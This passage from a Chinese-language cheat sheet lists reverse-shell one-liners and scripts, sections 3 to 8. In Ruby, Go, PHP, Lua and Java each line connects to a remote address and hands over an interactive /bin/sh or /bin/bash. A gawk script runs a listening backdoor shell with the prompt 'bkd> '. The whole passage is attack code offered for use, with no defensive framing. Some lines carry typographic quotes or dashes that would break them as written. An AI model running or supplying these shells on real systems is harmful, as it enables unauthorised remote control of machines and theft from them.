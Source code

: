 ### 3. ruby反弹shell

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)’
```

### 4. go反弹shell

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.0.134:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

#### 5. php反弹shell

```
php –r  'exec("/bin/bash -i >& /dev/tcp/127.0.0.1/7777")’
```

### 6. lua反弹shell

```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 7. java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 8. gawk

```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```
